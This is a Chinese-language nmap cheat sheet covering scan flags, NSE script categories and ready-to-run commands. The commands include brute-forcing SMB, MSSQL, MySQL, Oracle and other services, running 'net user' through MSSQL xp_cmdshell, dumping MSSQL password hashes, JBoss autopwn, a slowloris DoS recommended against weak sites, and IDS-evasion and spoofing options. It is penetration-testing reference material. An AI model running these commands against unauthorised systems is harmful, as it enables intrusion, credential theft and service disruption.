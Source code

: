 ```yaml
---
id: 244
title: 'nmap   速查'
date: 2018-08-31T15:28:36+00:00
author: bfpiaoran
layout: post
guid: http://www.cuijianxiong.top/?p=244
permalink: /?p=244
categories:
  - 未分类
---
```

# nmap 使用

Tags: 安全工具

[toc]

## <a id="user-content-重点参数" class="anchor" href="https://github.com/xinali/note/blob/master/websec/nmap%20%E4%BD%BF%E7%94%A8.md#%E9%87%8D%E7%82%B9%E5%8F%82%E6%95%B0" aria-hidden="true"></a>重点参数

    -sT     TCP扫描
    -sS     SYN扫描，速度较快
    -sU     UDP扫描
    -sP     ping方式扫描
    -vv     结果详细输出
    -O      操作系统类型的探测
    -A      包含了1-10000的端口ping扫描，操作系统扫描，脚本扫描，路由跟踪，服务探测
    -Pn     不检测主机存活
    

## <a id="user-content-重点脚本" class="anchor" href="https://github.com/xinali/note/blob/master/websec/nmap%20%E4%BD%BF%E7%94%A8.md#%E9%87%8D%E7%82%B9%E8%84%9A%E6%9C%AC" aria-hidden="true"></a>重点脚本

  1. 脚本分类，&#8211;script=类别 这种方式进行比较笼统的扫描 
        auth            负责处理鉴权证书（绕开鉴权）的脚本  
        broadcast       在局域网内探查更多服务开启状况，如dhcp/dns/sqlserver等服务  
        brute           提供暴力破解方式，针对常见的应用如http/snmp等  
        default         使用-sC或-A选项扫描时候默认的脚本，提供基本脚本扫描能力  
        discovery       对网络进行更多的信息，如SMB枚举、SNMP查询等  
        dos             用于进行拒绝服务攻击  
        exploit         利用已知的漏洞入侵系统  
        external        利用第三方的数据库或资源，例如进行whois解析  
        fuzzer          模糊测试的脚本，发送异常的包到目标机，探测出潜在漏洞 
        intrusive       入侵性的脚本，此类脚本可能引发对方的IDS/IPS的记录或屏蔽  
        malware         探测目标机是否感染了病毒、开启了后门等信息  
        safe            此类与intrusive相反，属于安全性脚本  
        version         负责增强服务与版本扫描（Version Detection）功能的脚本  
        vuln            负责检查目标机是否有常见的漏洞（Vulnerability），如是否有MS08_067
        

  2. 按应用服务扫描 
      1. vnc
        realvnc-auth-bypass     检查vnc bypass
        vnc-auth                检查vnc认证方式
        vnc-info                 获取vnc信息
        
    
    <ol start="2">
      <li>
        smb
      </li>
    </ol>
    
    smb破解
    
        --script=smb-brute.nse 
        
    
    smb字典破解
    
        --script=smb-brute.nse --script-args=userdb=/var/passwd,passdb=/var/passwd 
        
    
    查询敏感信息
    
        nmap -p 445 -n –script=smb-psexec --script-args= smbuser=test,smbpass=test
        
    
    查看系统信息
    
        nmap -n -p445 --script=smb-os-discovery.nse --script-args=smbuser=test,smbpass=test 
        
    
    <ol start="3">
      <li>
        mssql
      </li>
    </ol>
    
    猜解mssql用户名和密码
    
        nmap -p1433 --script=ms-sql-brute --script-args=userdb=/var/passwd,passdb=/var/passwd  
        
    
    xp_cmdshell 执行命令
    
        nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user" 
        
    
    dumphash值
    
        nmap -p 1433 --script ms-sql-dump-hashes.nse --script-args mssql.username=sa,mssql.password=sa 
        
    
    4）Mysql
    
    扫描root空口令
    
        nmap -p3306 --script=mysql-empty-password.nse 
        
    
    列出所有mysql用户
    
        nmap -p3306 --script=mysql-users.nse --script-args=mysqluser=root 192.168.137.4 
        
    
    Mysql所有脚本应用
    
        nmap --script=mysql-* 
        
    
    <ol start="5">
      <li>
        Oracle
      </li>
    </ol>
    
    sid扫描
    
        nmap --script=oracle-sid-brute -p 1521-1560 ip_address
        
    
    弱口令破解
    
        nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL,userdb=/var/passwd,passdb=/var/passwd 
        

### <a id="user-content-脚本延伸" class="anchor" href="https://github.com/xinali/note/blob/master/websec/nmap%20%E4%BD%BF%E7%94%A8.md#%E8%84%9A%E6%9C%AC%E5%BB%B6%E4%BC%B8" aria-hidden="true"></a>脚本延伸

    nmap --script=broadcast-netbios-master-browser 192.168.137.4   发现网关  
    nmap -p 873 --script rsync-brute --script-args 'rsync-brute.module=www' 192.168.137.4  破解rsync  
    nmap --script informix-brute -p 9088 192.168.137.4    informix数据库破解  
    nmap -p 5432 --script pgsql-brute 192.168.137.4       pgsql破解  
    nmap -sU --script snmp-brute 192.168.137.4            snmp破解  
    nmap -sV --script=telnet-brute 192.168.137.4          telnet破解  
    nmap --script=http-vuln-cve2010-0738 --script-args 'http-vuln-cve2010-0738.paths={/path1/,/path2/}' <target>  jboss autopwn  
    nmap --script=http-methods.nse 192.168.137.4 检查http方法  
    nmap --script http-slowloris --max-parallelism 400 192.168.137.4  dos攻击，对于处理能力较小的站点还挺好用的 'half-HTTP' connections   
    nmap --script=samba-vuln-cve-2012-1182  -p 139 192.168.137.4
    

## <a id="user-content-其余参数" class="anchor" href="https://github.com/xinali/note/blob/master/websec/nmap%20%E4%BD%BF%E7%94%A8.md#%E5%85%B6%E4%BD%99%E5%8F%82%E6%95%B0" aria-hidden="true"></a>其余参数

  1. 批量扫描 
        -iL filename                    从文件中读取待检测的目标,文件中的表示方法支持机名,ip,网段
        -iR hostnum                     随机选取,进行扫描.如果-iR指定为0,则是无休止的扫描
        --exclude host1[, host2]        从扫描任务中需要排除的主机           
        --exculdefile exclude_file      排除文件中的IP,格式和-iL指定扫描文件的格式相同
        

  2. 主机发现 
        -sL                     仅仅是显示,扫描的IP数目,不会进行任何扫描
        -sn                     ping扫描,即主机发现
        -Pn                     不检测主机存活
        -PS/PA/PU/PY[portlist]  TCP SYN Ping/TCP ACK Ping/UDP Ping发现
        -PE/PP/PM               使用ICMP echo, timestamp and netmask 请求包发现主机
        -PO[prococol list]      使用IP协议包探测对方主机是否开启   
        -n/-R                   不对IP进行域名反向解析/为所有的IP都进行域名的反响解析
        

  3. 扫描技巧 
        -sS/sT/sA/sW/sM                 TCP SYN/TCP connect()/ACK/TCP窗口扫描/TCP Maimon扫描
        -sU                             UDP扫描
        -sN/sF/sX                       TCP Null，FIN，and Xmas扫描
        --scanflags                     自定义TCP包中的flags
        -sI zombie host[:probeport]     Idlescan
        -sY/sZ                          SCTP INIT/COOKIE-ECHO 扫描
        -sO                             使用IP protocol 扫描确定目标机支持的协议类型
        -b “FTP relay host”             使用FTP bounce scan
        

  4. 指定端口和扫描顺序 
        -p                      特定的端口 -p80,443 或者 -p1-65535
        -p U:PORT               扫描udp的某个端口, -p U:53
        -F                      快速扫描模式,比默认的扫描端口还少
        -r                      不随机扫描端口,默认是随机扫描的
        --top-ports "number"    扫描开放概率最高的number个端口,出现的概率需要参考nmap-services文件,ubuntu中该文件位于/usr/share/nmap.nmap默认扫前1000个
        --port-ratio "ratio"    扫描指定频率以上的端口
        

  5. 服务版本识别 
        -sV                             开放版本探测,可以直接使用-A同时打开操作系统探测和版本探测
        --version-intensity "level"     设置版本扫描强度,强度水平说明了应该使用哪些探测报文。数值越高，服务越有可能被正确识别。默认是7
        --version-light                 打开轻量级模式,为--version-intensity 2的别名
        --version-all                   尝试所有探测,为--version-intensity 9的别名
        --version-trace                 显示出详细的版本侦测过程信息
        

  6. OS识别 
        -O              启用操作系统检测,-A来同时启用操作系统检测和版本检测
        --osscan-limit  针对指定的目标进行操作系统检测(至少需确知该主机分别有一个open和closed的端口)
        --osscan-guess  推测操作系统检测结果,当Nmap无法确定所检测的操作系统时，会尽可能地提供最相近的匹配，Nmap默认进行这种匹配
        

  7. 防火墙/IDS躲避和哄骗 
        -f; --mtu value                 指定使用分片、指定数据包的MTU.
        -D decoy1,decoy2...             使用诱饵隐蔽扫描ip
        -S IP-ADDRESS                   源地址欺骗
        -e interface                    使用指定的接口
        -g/ --source-port PROTNUM       使用指定源端口  
        --proxies url1,[url2],...       使用HTTP或者SOCKS4的代理 
         
        --data-length NUM               填充随机数据让数据包长度达到NUM
        --ip-options OPTIONS            使用指定的IP选项来发送数据包
        --ttl VALUE                     设置IP time-to-live域
        --spoof-mac ADDR/PREFIX/VEBDOR  MAC地址伪装
        

  8. 输出 
        -oN                     将标准输出直接写入指定的文件
        -oX                     输出xml文件
        -oS                     将所有的输出都改为大写
        -oG                     输出便于通过bash或者perl处理的格式,非xml
        -oA BASENAME            可将扫描结果以标准格式、XML格式和Grep格式一次性输出
        -v                      提高输出信息的详细度
        -d level                设置debug级别,最高是9
        --reason                显示端口处于带确认状态的原因
        --open                  只输出端口状态为open的端口
        --packet-trace          显示所有发送或者接收到的数据包
        --iflist                显示路由信息和接口,便于调试
        --log-errors            把日志等级为errors/warings的日志输出
        --append-output         追加到指定的文件
        --resume FILENAME       恢复已停止的扫描
        --stylesheet PATH/URL   设置XSL样式表，转换XML输出
        --webxml                从namp.org得到XML的样式
        --no-sytlesheet         忽略XML声明的XSL样式表